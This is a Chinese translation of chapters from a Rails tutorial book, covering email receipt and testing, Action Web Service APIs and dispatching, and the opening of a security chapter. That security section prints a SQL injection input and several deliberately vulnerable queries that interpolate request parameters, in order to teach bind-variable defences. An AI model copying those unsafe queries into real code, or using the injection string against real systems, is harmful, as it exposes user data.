例如，一个错误跟踪系统可能会通过电子邮件接收问题工单。从每封电子邮件中，它构建一个包含基本工单信息的 `Ticket` 模型对象。如果电子邮件包含附件，每个附件都将被复制到一个新的 `TicketCollateral` 对象中，该对象与新工单相关联。

```
class IncomingTicketHandler < ActionMailer::Base

  def receive(email)
    ticket = Ticket.new
    ticket.from_email = email.from[0]
    ticket.initial_report = email.body
    if email.has_attachments?
      email.attachments.each do |attachment|
        collateral = TicketCollateral.new(
                       :name => attachment.original_filename,
                       :body => attachment.read)
        ticket.ticket_collaterals << collateral
      end
    end
    ticket.save
  end
end
```

因此，我们现在面临的问题是将服务器计算机接收到的电子邮件传递到我们的 `IncomingTicketHandler` 的 `receive` 实例方法中。这个问题实际上是两个问题的结合：首先，我们必须安排拦截符合某种标准的电子邮件，然后我们必须将这些电子邮件传递到我们的应用程序中。

如果你控制着邮件服务器的配置（例如，基于 Unix 系统上的 Postfix 或 sendmail 安装），你或许可以安排在收到发送到特定邮箱或虚拟主机的电子邮件时运行一个脚本。然而，邮件系统很复杂，我们这里没有篇幅详细介绍所有可能的配置排列组合。Rails 开发 wiki 上有一个很好的介绍。³

如果你没有这种系统级别的访问权限，但你使用的是 Unix 系统，你可以通过在用户的 `.procmailrc` 文件中添加规则来在用户级别拦截电子邮件。我们稍后会看到一个例子。

拦截传入电子邮件的目标是将其传递到我们的应用程序。为此，我们使用 Rails 的 `runner` 工具。这允许我们调用应用程序代码库中的代码，而无需通过 Web。相反，runner 在一个单独的进程中加载应用程序，并调用我们在应用程序中指定的代码。

所有拦截传入电子邮件的常规技术最终都会运行一个命令，并将该电子邮件的内容作为标准输入传递给该命令。如果我们让 Rails 的 `runner` 脚本成为每封电子邮件到达时被调用的命令，我们就可以安排将该电子邮件传递到我们应用程序的电子邮件处理代码中。例如，使用基于 `procmail` 的拦截，我们可以编写一个类似于下面示例的规则。使用 `procmail` 晦涩难懂的语法，这个规则会将任何主题行包含 `Bug Report` 的传入电子邮件通过我们的 `runner` 脚本进行复制。

```
RUBY=/Users/dave/ruby1.8/bin/ruby
TICKET_APP_DIR=/Users/dave/Work/BS2/titles/RAILS/Book/code/e1/mailer
HANDLER='IncomingTicketHandler.receive(STDIN.read)'

:0 c
* ^Subject:.*Bug Report.*
| cd $TICKET_APP_DIR && $RUBY script/runner $HANDLER
```

`receive` 类方法对所有 Action Mailer 类都可用。它接受作为参数传递的电子邮件文本，将其解析为 TMail 对象，创建一个新的接收器类实例，并将该 TMail 对象传递给该类中的 `receive` 实例方法。这就是我们在上一页编写的方法。最终结果是，从外部世界接收到的电子邮件最终创建了一个 Rails 模型对象，该对象又在数据库中存储了一个新的问题工单。

### 24.3 测试电子邮件

电子邮件测试有两个层次。在单元测试级别，你可以验证你的 Action Mailer 类是否正确生成电子邮件。在功能级别，你可以测试你的应用程序是否在期望它发送电子邮件时发送了它们。

3. http://wiki.rubyonrails.com/rails/show/HowToReceiveEmailsWithActionMailer

#### 单元测试电子邮件

当我们使用 generate 脚本创建我们的订单邮件发送程序时，它会自动在应用程序的 `test/unit` 目录中构建一个相应的 `order_mailer_test.rb` 文件。如果你查看这个文件，你会看到它相当复杂。那是因为它允许你从测试夹具文件中读取电子邮件的预期内容，并将此内容与你的邮件发送类生成的电子邮件进行比较。然而，这是相当脆弱的测试。每次你更改用于生成电子邮件的模板时，你都需要更改相应的夹具。

如果对电子邮件内容的精确测试对你很重要，那么请使用预生成的测试类。在 `test/fixtures` 目录中，为测试创建一个以测试命名的子目录（因此我们的 `OrderMailer` 夹具将位于 `test/fixtures/order_mailer`）。使用生成的代码中包含的 `read_fixture` 方法读取特定的夹具文件，并将其与模型生成的电子邮件进行比较。

然而，我更喜欢简单的方法。就像我不测试由模板生成的网页的每个字节一样，我通常也不去测试生成电子邮件的完整内容。相反，我测试可能出错的部分：动态内容。这简化了单元测试代码，并使其对模板的小改动更具弹性。这是一个典型的电子邮件单元测试。

```
require File.dirname(__FILE__) + '/../test_helper'
require 'order_mailer'

class OrderMailerTest < Test::Unit::TestCase

  def setup
    @order = Order.new(:name => "Dave Thomas", :email => "dave@pragprog.com")
  end

  def test_confirm
    response = OrderMailer.create_confirm(@order)
    assert_equal("Pragmatic Store Order Confirmation", response.subject)
    assert_equal("dave@pragprog.com", response.to[0])
    assert_match(/Dear Dave Thomas/, response.body)
  end
end
```

`setup` 方法为邮件发送程序创建一个订单对象以供使用。在测试方法中，我们让邮件类创建（但不发送）一封电子邮件，并使用断言来验证动态内容是否符合我们的预期。请注意，这里使用了 `assert_match` 来验证正文内容的一部分。


##### 电子邮件的功能测试

现在我们知道可以为订单创建电子邮件了，我们希望确保应用程序在正确的时间发送正确的电子邮件。这是功能测试的任务。

让我们从为应用程序生成一个新的控制器开始。

```
depot> ruby script/generate controller Order confirm
```

我们将实现单一的动作`confirm`，该动作为新订单发送确认电子邮件。

```ruby
# Download e1/mailer/app/controllers/order_controller.rb

class OrderController < ApplicationController
  def confirm
    order = Order.find(params[:id])
    OrderMailer.deliver_confirm(order)
    redirect_to(:action => :index)
  end
end
```

我们在第13.3节“控制器的功能测试”（第198页）中看到过Rails如何为生成的控制器创建一个桩功能测试。我们将把我们的邮件测试添加到这个生成的测试中。

Action Mailer在测试环境中不会真正发送电子邮件。相反，它会将生成的每封电子邮件添加到一个名为`ActionMailer::Base.deliveries`的数组中。我们将利用这一点来获取控制器生成的电子邮件。我们将在生成的测试的`setup`方法中添加几行代码。一行将这个数组别名为一个更易于管理的名称`@emails`。另一行在每次测试开始时清空该数组。

```ruby
# Download e1/mailer/test/functional/order_controller_test.rb

@emails = ActionMailer::Base.deliveries
@emails.clear
```

我们还需要一个包含示例订单的测试夹具。我们将在`test/fixtures`目录中创建一个名为`orders.yml`的文件。

```yaml
# Download e1/mailer/test/fixtures/orders.yml

daves_order:
  id:        1
  name:      Dave Thomas
  address:   123 Main St
  email:     dave@pragprog.com
```

现在我们可以为我们的动作编写测试了。以下是测试类的完整源代码。

```ruby
# Download e1/mailer/test/functional/order_controller_test.rb

require File.dirname(__FILE__) + '/../test_helper'
require 'order_controller'

# Re-raise errors caught by the controller.
class OrderController; def rescue_action(e) raise e end; end

# continued...

class OrderControllerTest < Test::Unit::TestCase

  fixtures :orders

  def setup
    @controller = OrderController.new
    @request    = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new

    @emails     = ActionMailer::Base.deliveries
    @emails.clear
  end

  def test_confirm
    get(:confirm, :id => orders(:daves_order).id)
    assert_redirected_to(:action => :index)
    assert_equal(1, @emails.size)
    email = @emails.first
    assert_equal("Pragmatic Store Order Confirmation", email.subject)
    assert_equal("dave@pragprog.com", email.to[0])
    assert_match(/Dear Dave Thomas/, email.body)
  end
end
```

它使用`@emails`别名来访问自测试开始运行以来Action Mailer生成的电子邮件数组。在确认列表中正好有一封电子邮件后，它便验证其内容是否符合预期。

我们可以通过使用`rake`的`test_functional`目标或直接执行脚本来运行此测试。

```
depot> ruby test/functional/order_controller_test.rb
```

本章作者Leon Breedt，同时也是Action Web Service代码的作者，是一位来自南非开普敦市的分析师/开发者。

# 第25章

## Rails上的Web服务

（本章内容有一定争议性。随着Rails中对REST支持的出现，核心团队对基于XML-RPC和SOAP的Web服务兴趣降低。Action Web Service将从Rails核心中移除，并在Rails 2.0中作为插件提供。对于没有外部接口约束的新应用程序，您可能希望考虑使用更轻量级的REST方法。但是，如果您需要与现有Web服务接口，本章将为您提供所需的信息。）

随着Depot应用程序的启动和运行，我们可能希望让其他开发者编写自己的应用程序，通过标准的Web服务协议与之通信。为此，我们需要熟悉Action Web Service（从现在起我们称之为AWS）。

在本章中，我们将讨论AWS的结构。我们将了解如何声明API、编写实现代码，然后通过编写测试来确保其正常工作。

### 25.1 AWS是什么（以及不是什么）

AWS为Rails应用程序中的SOAP和XML-RPC协议提供支持。它将传入的方法调用请求转换为我们Web服务上的方法调用，并负责发送回响应。这使我们能够专注于编写特定于应用程序的方法来处理请求。

AWS并未实现W3C规范中关于SOAP和WSDL的每个方面，也没有提供XML-RPC的所有可能功能。相反，它专注于那些我们可以合理期望在Web服务中定期使用的功能。

- 任意嵌套的结构化类型
- 类型化的数组
- 当Web服务方法引发异常时，通过网络发送异常和跟踪信息

Action Web Service通过强制输入和输出值转换为正确的类型，让我们在接收远程调用者输入时可以宽容，在输出内容时保持严格。^1

使用Action Web Service，我们可以

- 为Rails应用程序添加对Blogger或metaWeblog API的支持，
- 实现我们自己的自定义API，并让.NET开发者能够使用Action Web Service生成的WSDL生成一个类来调用它，以及
- 使用相同的代码同时支持SOAP和XML-RPC后端。

### 25.2 API定义

创建Web服务应用程序的第一步是决定我们要向远程调用者提供哪些功能，以及要向他们暴露多少信息。

理想情况下，简单地编写一个实现这些功能并使其可被调用的类就足够了。然而，当我们想与不如Ruby动态的语言进行互操作时，这会导致问题。Ruby方法可以返回任何类型的对象。当远程调用者收到他们不期望的东西时，这可能会导致灾难性的后果。

AWS通过执行类型强制转换来处理这个问题。如果方法参数或返回值类型不正确，AWS会尝试进行转换。这既让远程调用者满意，也避免了我们不得不费尽周折将输入参数转换为正确的类型（如果远程调用者发送给我们错误的值，例如字符串而非适当的整数）。

由于Ruby无法使用方法定义来确定预期的方法参数类型和返回值类型，我们必须通过创建一个*API定义*类来帮助它。可以将API定义类视为类似Java或C#的接口：它不包含实现代码，不能被实例化。它只是描述API。

说得够多了，让我们来看一个例子。我们将使用生成器开始。我们将创建一个Web服务，它有两个方法：一个返回所有产品的列表，另一个返回特定产品的详细信息。

```
depot> ruby script/generate web_service Backend find_all_products find_product_by_id
exists  app/apis/
exists  test/functional/
create  app/apis/backend_api.rb
create  app/controllers/backend_controller.rb
create  test/functional/backend_api_test.rb
```

> 1. 意译自Jon Postel（以及后来的Larry Wall）的话

这会生成一个桩API定义。

```ruby
# Download e1/depot_ws/app/apis/backend_api_generated.rb

class BackendApi < ActionWebService::API::Base
  api_method :find_all_products
  api_method :find_product_by_id
end
```

它生成一个骨架控制器。

```ruby
# Download e1/depot_ws/app/controllers/backend_controller_generated.rb

class BackendController < ApplicationController
  wsdl_service_name 'Backend'
  def find_all_products
  end
  def find_product_by_id
  end
end
```

它还生成了一个示例功能测试，我们将在第25.6节“测试Web服务”（第595页）中介绍。

我们需要完成API定义。我们将将其名称更改为`ProductApi`，文件名更改为`app/apis/product_api.rb`。

```ruby
# Download e1/depot_ws/app/apis/product_api.rb

class ProductApi < ActionWebService::API::Base
  api_method :find_all_products,
             :returns => [[:int]]
  api_method :find_product_by_id,
             :expects => [:int],
             :returns => [Product]
end
```

由于我们更改了API定义的名称，API定义`BackendApi`的自动加载（因为它与控制器共享前缀）将不再有效。因此，我们将向控制器添加一个`web_service_api`调用以将其显式地附加到控制器。我们还向方法体添加了一些代码，并使签名与API匹配。

```ruby
# Download e1/depot_ws/app/controllers/backend_controller.rb

class BackendController < ApplicationController
  wsdl_service_name 'Backend'
  web_service_api ProductApi
  web_service_scaffold :invoke

  def find_all_products
    Product.find(:all).map{ |product| product.id }
  end
  def find_product_by_id(id)
    Product.find(id)
  end
end
```


图 25.1：Web 服务脚手架让你可以测试 API

在这个示例控制器中，有几个要点需要注意。`wsdl_service_name` 方法将一个名称与将在生成的 Web 服务描述语言（WSDL）中使用的服务关联起来。这不是必需的，但建议设置它。`web_service_scaffold` 调用的行为类似于标准的 Action Pack 脚手架。它提供了一种在开发期间从 Web 浏览器执行 Web 服务方法的方式，而在生产环境中我们需要将其移除。

既然我们已经实现了服务并且脚手架已就位，我们可以通过导航到脚手架操作（我们将其名称作为第一个参数传递给 `web_service_scaffold`）来测试它。图 25.1 显示了在浏览器中导航到脚手架的结果。

#### 方法签名

AWS API 声明使用 `api_method` 来声明 Web 服务接口中的每个方法。这些声明使用 `signatures` 来指定方法的调用约定和返回类型。

签名是一个包含一个或多个 *参数说明符* 的数组。参数说明符告诉 AWS 对于对应的参数应该期望什么类型的值，以及（可选的）参数的名称。

`api_method` 接受 `:expects` 和 `:returns` 选项来指定签名。`:expects` 选项指明我们方法的每个参数的类型（以及可选的名称）。`:returns` 选项指明方法返回值的类型。

如果我们省略 `:expects`，当远程调用者尝试提供参数时，AWS 会引发错误。如果我们省略 `:returns`，AWS 将丢弃方法的返回值，不向调用者返回任何内容。任何一个选项的存在都会导致 AWS 执行类型转换以确保以下情况：

- 方法输入参数在方法执行时是正确的类型。
- 方法体返回的值在返回给远程调用者之前是正确的类型。

##### 参数说明符的格式

参数说明符是以下之一：

- 一个符号或字符串，标识 Action Web Service 的一个基础类型
- 自定义结构化类型的 `Class` 对象（例如 `ActionWebService::Struct` 或 `ActiveRecord::Base`；参见下一节 25.2 节“结构化参数类型”）
- 一个单元素数组，包含 (1) 或 (2) 中的一项
- 一个单元素哈希，其中键是参数名称，值是 (1)、(2) 或 (3) 之一

例如，以下是有效的签名：

```
[[:string]]
  字符串数组参数

[:bool]
  布尔参数

[Person]
  Person 结构化类型参数

[{:lastname=>:string}]
  字符串参数，在生成的 WSDL 中名为 lastname

[:int, :int]
  两个整数参数
```

> **参数名称**
注意，在示例 `ProductApi` 的 `:expects` 签名中，我们没有命名方法参数。在 `:expects` 中命名参数不是必需的，但如果没有名称，生成的 WSDL 将没有描述性的参数名称，使其对外部开发人员的用处降低。

##### 基础参数类型

对于简单类型，如数字、字符串、布尔值、日期和时间，AWS 定义了一组名称，可以在签名中用来指代该类型，而不是使用可能含糊的 `Class` 对象。

我们可以使用符号或字符串作为参数说明符。

- `:int`：整数参数。
- `:string`：字符串值。
- `:base64`：用于接收二进制数据。当远程调用者使用协议的 Base64 类型提供值，并且签名中使用了 `:base64` 时，该值在方法看到它之前将被解码为二进制。
- `:bool`：布尔值。
- `:float`：浮点数。
- `:time`：时间戳值，包含日期和时间。强制转换为 Ruby 的 `Time` 类型。
- `:datetime`：时间戳值，包含日期和时间。强制转换为 Ruby 的 `DateTime` 类型。
- `:date`：日期值，仅包含日期。强制转换为 Ruby 的 `Date` 类型。

##### 结构化参数类型

除了基础类型，AWS 还允许我们在签名中使用 `ActionWebService::Struct` 或 `ActiveRecord::Base` 的 `Class` 对象。

使用这些可以让外部开发人员在访问我们的 Web 服务时，使用其平台的原生结构化类型。

那么，远程调用者看到的结构化类型中包含了什么？对于 `ActionWebService::Struct`，是所有通过 `member` 定义的成员。

```ruby
class Person < ActionWebService::Struct
  member :id,   :int
  member :name, :string
end
```

`ActiveRecord::Base` 的派生类则公开其对应数据库表中定义的列。

### 25.3 调度模式

远程调用者将他们的调用请求发送到端点 URL。（第 25.6 节“外部客户端应用程序（XML-RPC）”在第 597 页有端点 URL 的格式。）调度是 AWS 将这些传入请求映射到实现服务的对象中的方法的过程。

默认的调度模式是 *直接调度*，无需额外配置即可设置。这就是我们在第 585 页示例中使用的模式。

#### 直接调度

在直接调度中，API 定义直接附加到控制器，并且 API 方法实现作为公共实例方法放置在控制器中。

这种方法的优点是其简单性。缺点是只能将一个 API 定义附加到控制器；因此，对于唯一的端点 URL，我们只能有一个 API 实现。它也模糊了模型和控制器代码的分离。如图 25.2 所示。

图 25.2：直接调度概览

##### 分层调度

分层调度允许我们用一个控制器实现多个 API，所有 API 共享一个唯一的端点 URL。这对于重叠的基于 XML-RPC 的 API（如各种博客 API）非常有效，因为这些 API 的桌面客户端应用程序通常只支持一个端点 URL。如图 25.3 所示。

##### 委托调度

委托调度与分层调度相同，只是它为每个包含的 API 使用一个唯一的端点 URL。远程调用者不是将 API 标识符嵌入到方法调用消息中，而是将特定 API 的消息发送到其关联的端点 URI。

我们使用控制器中的 `web_service_dispatching_mode` 方法来选择该控制器的调度模式。

```ruby
class RpcController < ActionController::Base
  web_service_dispatching_mode :layered
end
```

有效的模式是 `:direct`、`:layered` 和 `:delegated`。

### 25.4 使用替代调度模式

既然我们在第一个示例 Web 服务中已经使用了直接调度，让我们用另一种模式来实现相同的 Web 服务。

> **从远程调用者角度看分层调度**
来自远程调用者的调用请求通过发送一个标识符来区分 API，该标识符指示方法调用应发送到哪个 API。

在 XML-RPC 的情况下，远程调用者使用标准的 XML-RPC `serviceName.methodName` 约定，其中 `serviceName` 就是标识符。例如，一个 XML-RPC 消息中名为 `blogger.newPost` 的方法将被发送到声明实现 `blogger` 服务的任意对象中的 `newPost` 方法。

在 SOAP 的情况下，此信息在生成的 WSDL 中声明的 `SOAPAction` HTTP 头中编码。这意味着，如果远程调用者位于一个会剥离此 HTTP 头的代理之后，他们将无法调用使用分层调度的 Web 服务。

#### 分层调度模式

由于分层调度用一个控制器实现多个 API，它需要为传入的方法调用创建到实现它们的对象的映射。我们使用控制器中的 `web_service` 声明进行此映射。

```ruby
class LayeredBackendController < ApplicationController
  web_service_dispatching_mode :layered
  web_service_scaffold :invoke
  web_service :product, ProductService.new
  web_service(:order) { OrderService.new }
end
```

你会注意到我们不再将 API 定义附加到控制器，因为它不再包含 API 方法。还要注意我们调用 `web_service` 的两种不同方式。

第一次调用 `web_service` 直接传递了一个 `ProductService` 实例。如果我们的 Web 服务不需要与控制器有任何关系，这就足够了。然而，由于实例是在类定义时创建的，它无法访问控制器的实例变量，因此实际上独立于控制器运行。

第二次调用 `web_service` 传递了一个块参数。这会将 `OrderService` 的实例化延迟到请求时。我们给它的块将在控制器实例上下文中求值，因此它可以访问控制器的所有实例变量和方法。如果需要在我们的 Web 服务方法中使用辅助方法（如 `url_for`），这将非常有用。

这是我们代码的其余部分。首先，是产品搜索服务的实现。

```ruby
class ProductService < ActionWebService::Base
  web_service_api ProductApi

  def find_all_products
    Product.find(:all).map{ |product| product.id }
  end

  def find_product_by_id(id)
    Product.find(id)
  end
end
```

接下来是用于判断产品是否已发货的 API 实现。

```ruby
class OrderApi < ActionWebService::API::Base
  api_method :is_order_shipped,
             :expects => [{:orderid => :int}],
             :returns => [:bool]
end

class OrderService < ActionWebService::Base
  web_service_api OrderApi

  def is_order_shipped(orderid)
    raise "No such order" unless order = Order.find_by_id(orderid)
    !order.shipped_at.nil?
  end
end
```

##### 实现委托式分派

委托式分派的实现与分层式分派相同，唯一的区别在于我们需要向 `web_service_dispatching_mode` 传递 `:delegated` 而非 `:layered`。

### 25.5 方法调用拦截

为避免在多个方法中重复相同的代码，AWS 允许我们执行调用拦截，即注册在 Web 服务请求之前和/或之后被调用的回调函数。

AWS 拦截的工作方式类似于 Action Pack 过滤器，但它包含了通过 Action Pack 过滤器无法获得的、关于 Web 服务请求的额外信息，例如方法名及其解码后的参数。

例如，如果我们想只允许持有有效 API 密钥的远程调用者访问我们的产品搜索 Web 服务，我们可以在每个方法调用中添加一个额外的参数。

```ruby
class ProductAuthApi < ActionWebService::API::Base
  api_method :find_all_products,
             :expects => [{:key=>:string}],
             :returns => [[:int]]
  api_method :find_product_by_id,
             :expects => [{:key=>:string}, {:id=>:int}],
             :returns => [Product]
end
```

然后创建一个调用拦截器来验证这个参数，而无需将代码放入每个方法中。

```ruby
class BackendAuthController < ApplicationController
  wsdl_service_name 'Backend'
  web_service_api ProductAuthApi
  web_service_scaffold :invoke
  before_invocation :authenticate

  def find_all_products(key)
    Product.find(:all).map{ |product| product.id }
  end

  def find_product_by_id(key, id)
    Product.find(id)
  end

  protected
    def authenticate(name, args)
      raise "Not authenticated" unless args[0] == 'secret'
    end
end
```

与 Action Pack 类似，如果一个前置拦截器返回 false，则该方法永远不会被调用，并且一个适当的错误消息会作为异常发送回调用者。如果一个前置拦截器抛出异常，Web 服务方法的调用也将被中止。

AWS 拦截器使用 `before_invocation` 和 `after_invocation` 来定义。

```ruby
before_invocation(interceptor, options={})
after_invocation(interceptor, options={})
```

拦截器可以是一个符号，此时它应指向一个实例方法。它也可以是一个代码块或一个对象实例。当它是对象实例时，该实例应有一个 `intercept` 方法。

实例方法的前置拦截器在被调用时接收两个参数：被拦截方法的方法名和它的参数（以数组形式）。

```ruby
def interceptor(method_name, method_params)
  false
end
```

代码块和对象实例的前置拦截器接收三个参数。第一个是包含 Web 服务方法的对象，第二个是被拦截的方法名，第三个是它的参数（以数组形式）。

```ruby
before_invocation do |obj, method_name, method_params|
  false
end
```

后置拦截器接收与前置拦截器相同的初始参数，但在末尾额外接收一个参数。该参数包含被拦截方法的返回值，因为后置拦截器在被拦截方法完成后执行。

`before_invocation` 和 `after_invocation` 方法支持 `:except` 和 `:only` 选项。这些选项接受一个符号数组作为参数，用于指定需要限制拦截的方法名。

```ruby
before_invocation :intercept_before, :except => [:some_method]
```

上面的例子将 `:intercept_before` 拦截器应用于除 `:some_method` 方法之外的所有 Web 服务方法。

### 25.6 测试 Web 服务

AWS 与 Rails 测试框架集成，因此我们可以使用标准的 Rails 测试模式来确保我们的 Web 服务正常工作。

当我们第一次使用 `web_service` 生成器创建第一个示例时，一个框架功能测试已在 `test/functional/backend_api_test.rb` 中为我们创建。

这是我们修改后、用于传递第 885 页示例中预期参数的功能测试。

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'backend_controller'

class BackendController
  def rescue_action(e)
    raise e
  end
end

class BackendControllerApiTest < Test::Unit::TestCase
  fixtures :products

  def setup
    @controller = BackendController.new
    @request    = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new
  end

  def test_find_all_products
    result = invoke :find_all_products
    assert result[0].is_a?(Integer)
  end

  def test_find_product_by_id
    product = invoke :find_product_by_id, 2
    assert_equal 'Product 2', product.description
  end
end
```

这测试了 `BackendController` 中的 Web 服务方法。它执行一个完整的 Action Pack 请求/响应周期，模拟我们的 Web 服务在真实世界中的调用方式。

测试使用 `invoke(method_name, *args)` 来调用 Web 服务。参数 `method_name` 是一个符号，标识要调用的方法，`*args` 是传递给该方法的一个或多个参数。

`invoke` 方法只能测试使用直接分派的控制器。对于分层式和委托式分派，应使用 `invoke_layered` 和 `invoke_delegated` 来执行测试调用。它们的签名相同。

```ruby
invoke_layered(service_name, method_name, *args)
invoke_delegated(service_name, method_name, *args)
```

在这两种情况下，`service_name` 参数都指在控制器中声明服务时传递给 `web_service` 的第一个参数。

#### 外部客户端应用程序 (SOAP)

当我们希望在具有 SOAP 堆栈的平台上与外部应用程序进行测试时，我们应该从 AWS 可以生成的 WSDL 创建客户端。

AWS 生成的 WSDL 文件声明我们的 Web 服务使用 RPC 编码的消息，因为这为我们提供了更强的类型。这也是 AWS 唯一支持的消息类型：不支持 Document/Literal 消息。

默认的 Rails `config/routes.rb` 文件在我们的控制器上创建一个名为 `service.wsdl` 的路由。要获取该控制器的 WSDL，我们需要下载文件

```
http://my.app.com/CONTROLLER/service.wsdl
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<definitions name="Backend" xmlns:typens="urn:ActionWebService" . . .>
  <types>
    <xsd:schema xmlns="http://www.w3.org/2001/XMLSchema" . . .>
      <xsd:complexType name="Product">
        <xsd:all>
          <xsd:element name="id" type="xsd:int"/>
          <xsd:element name="title" type="xsd:string"/>
          <xsd:element name="description" type="xsd:string"/>
          <xsd:element name="image_url" type="xsd:string"/>
          <xsd:element name="price" type="xsd:double"/>
          <xsd:element name="date_available" type="xsd:dateTime"/>
        </xsd:all>
      </xsd:complexType>
      <xsd:complexType name="IntegerArray">
        <xsd:complexContent>
          <xsd:restriction base="soapenc:Array">
            <xsd:attribute wsdl:arrayType="xsd:int[]" ref="soapenc:arrayType"/>
          </xsd:restriction>
        </xsd:complexContent>
      </xsd:complexType>
    </xsd:schema>
  </types>
  <message name="FindAllProducts">
  </message>
  <message name="FindAllProductsResponse">
    <part name="return" type="typens:IntegerArray"/>
  </message>
  . . .
```

图 25.4：由 AWS 生成的 WSDL

并使用像 Visual Studio 这样的 IDE 或适当的命令行工具（如 `wsdl.exe`）来生成客户端类文件。即使我们移除了 `service.wsdl` 路由，控制器中一个名为 `wsdl` 的 action 仍然会存在。

##### 外部客户端应用程序 (XML-RPC)

如果我们的 Web 服务使用的是 XML-RPC 而非 SOAP，我们就必须知道其端点 URL 是什么，因为 XML-RPC 没有类似 WSDL 的文件来提供协议请求发送位置的信息。对于直接分派和分层式分派，端点 URL 是

```
http://my.app.com/PATH/TO/CONTROLLER/api
```

对于委托式分派，端点 URL 是

```
http://my.app.com/PATH/TO/CONTROLLER/SERVICE_NAME
```


### 25.7 协议客户端

Action Web Service 包含一些用于访问远程 Web 服务的客户端类。这些类能够理解 Action Web Service API 定义，因此，如果我们拥有远程服务的 API 定义，就可以访问该服务，并自动完成正确类型之间的转换。

然而，这些并非通用客户端。如果我们的客户端应用与服务器耦合不紧密，使用 Ruby 原生的 SOAP 和 XML-RPC 客户端可能更为合理。

如果想在控制器内部使用 AWS 客户端访问远程 Web 服务 API，请使用 `web_client_api` 辅助函数。

```ruby
class MyController < ApplicationController
  web_client_api :product,
                 :soap,
                 "http://my.app.com/backend/api"

  def list
    @products = product.find_all_products.map do |id|
      product.find_product_by_id(id)
    end
  end
end
```

`web_client_api` 声明会在控制器中创建一个名为 `product` 的受保护方法。它使用了我们在第一个示例中创建的 `ProductApi` 类。调用 `product` 方法会返回一个客户端对象，其中包含了 `ProductApi` 的所有方法以供执行。

我们也可以通过为相关协议（`ActionWebService::Client::Soap` 或 `ActionWebService::Client::XmlRpc`）创建客户端实例来直接调用 Web 服务 API。然后，我们就可以在此实例上调用 API 方法。

```ruby
shop = ActionWebService::Client::Soap.new(ProductApi,
                                      "http://my.app.com/backend/api")
product = shop.find_product_by_id(5)
```

# 第四部分

## 保护并部署你的应用

本章改编并扩展了 Andreas Schwarz 关于 Rails 安全性的在线手册，该手册可在 http://manuals.rubyonrails.com/read/book/8 获取。

# 第26章

## 保护你的 Rails 应用

Web 应用持续遭受攻击。Rails 应用也未能幸免。

安全性是一个宏大的主题——足以成为整本书的内容。我们无法在短短一章中详尽阐述。在将你的应用部署到可怕、险恶的互联网之前，你可能需要做些研究。阅读安全知识的一个好起点是开放 Web 应用安全项目（Open Web Application Security Project, OWASP），其网站为 http://www.owasp.org/。这是一个志愿者组织，致力于整理与安全相关的“免费、专业级、开源的文档、工具和标准”。请务必查看他们的 Web 应用十大安全问题清单。如果你遵循一些基本准则，就能让你的 Rails 应用安全得多。

### 26.1 SQL 注入

*SQL 注入*是许多 Web 应用面临的头号安全问题。那么，什么是 SQL 注入，它是如何运作的？

假设一个 Web 应用从不可靠来源（例如 Web 表单字段的数据）获取字符串，并直接将这些字符串用于 SQL 语句。如果应用没有正确转义任何 SQL 元字符（如反斜杠或单引号），攻击者就可以控制在你服务器上执行的 SQL，使其返回敏感数据、创建包含无效数据的记录，甚至执行任意 SQL 语句。

想象一个具有搜索功能的 Web 邮件系统。用户可以在表单中输入一个字符串，应用将列出所有以该字符串为主题电子邮件。在我们应用的模型中，可能存在如下查询。

```ruby
Email.find(:all,
           :conditions => "owner_id = 123 AND subject = '#{params[:subject]}'")
```

这是危险的。想象一个恶意用户手动将字符串 `" OR 1 --'` 作为主题参数发送。在 Rails 将其代入为 `find` 方法生成的 SQL 之后，生成的语句将如下所示。¹

```sql
select * from emails where owner_id = 123 AND subject = '' OR 1 --''
```

`OR 1` 条件始终为真。两个减号启动一个 SQL 注释；其后的内容都将被忽略。我们的恶意用户将获得数据库中所有电子邮件的列表。²

#### 防范 SQL 注入

如果你只使用预定义的 Active Record 函数（如 `attributes`、`save` 和 `find`），并且在调用这些方法时不添加自己的条件、限制和 SQL，Active Record 会负责为你转义数据中的任何危险字符。例如，以下调用可免受 SQL 注入攻击。

```ruby
order = Order.find(params[:id])
```

即使 `id` 值来自传入的请求，`find` 方法也负责转义元字符。恶意用户所能做的最坏情况不过是引发一个 *Not Found* 异常。

但如果你的调用包含了条件、限制或 SQL，并且其中任何数据来自外部来源（即使是间接的），你就必须确保这些外部数据不包含任何 SQL 元字符。一些潜在不安全的查询包括

```ruby
Email.find(:all,
                  :conditions => "owner_id = 123 AND subject = '#{params[:subject]}'")

Users.find(:all,
                   :conditions => "name like '%#{session[:user].name}%'")

Orders.find(:all,
                    :conditions => "qty > 5",
                    :limit => #{params[:page_size]})
```

防范这些 SQL 注入攻击的正确方法是永远不要使用常规的 Ruby `#{...}` 机制将任何内容代入 SQL 语句。相反，应使用 Rails 的 `bind variable` 功能。例如，你可以将 Web 邮件搜索查询重写如下。

```ruby
subject = params[:subject]
Email.find(:all,
               :conditions => [ "owner_id = 123 AND subject  = ?", subject ])
```

1.  实际使用的攻击取决于数据库。这些示例基于 MySQL。
2.  当然，在真实应用中，所有者 id 会动态插入；为保持示例简单，此处省略。

如果 `find` 的参数是一个数组而不是字符串，Active Record 会将第二个、第三个、第四个（以此类推）元素的值依次代入第一个元素中的每个 `?` 占位符。如果元素是字符串，它会添加引号，并转义所有对 Email 模型使用的数据库适配器具有特殊意义的字符。

除了使用问号和值数组，你还可以使用命名绑定值并传入一个哈希。我们将在第 299 页开始讨论这两种形式的占位符。

##### 将查询提取到模型方法中

如果你需要在代码的多个地方执行具有类似选项的查询，你应该在模型类中创建一个封装该查询的方法。例如，你的应用中一个常见的查询可能是

```ruby
emails = Email.find(:all,
                 :conditions => ["owner_id = ? and read='NO'", owner.id])
```

将其封装到 Email 模型的一个类方法中可能更好。

```ruby
class Email < ActiveRecord::Base
  def self.find_unread_for_owner(owner)
    find(:all, :conditions => ["owner_id = ? and read='NO'", owner.id])
  end
  # ...
end
```

在应用的其余部分，每当需要查找任何未读电子邮件时，你都可以调用此方法。

```ruby
emails = Email.find_unread_for_owner(owner)
```

如果你这样编码，就无需担心元字符——所有的安全问题都封装在模型的下层。你应该确保这种模型方法即使被不信任的参数调用，也不会破坏任何东西。

另外请记住，Rails 会自动为模型中的所有属性生成查找器方法（finder methods），这些查找器免受 SQL 注入攻击。如果你想搜索具有给定所有者和主题的电子邮件，只需使用 Rails 自动生成的方法即可。

```ruby
list = Email.find_all_by_owner_id_and_subject(owner.id, subject)
```

### 26.2 直接从表单参数创建记录

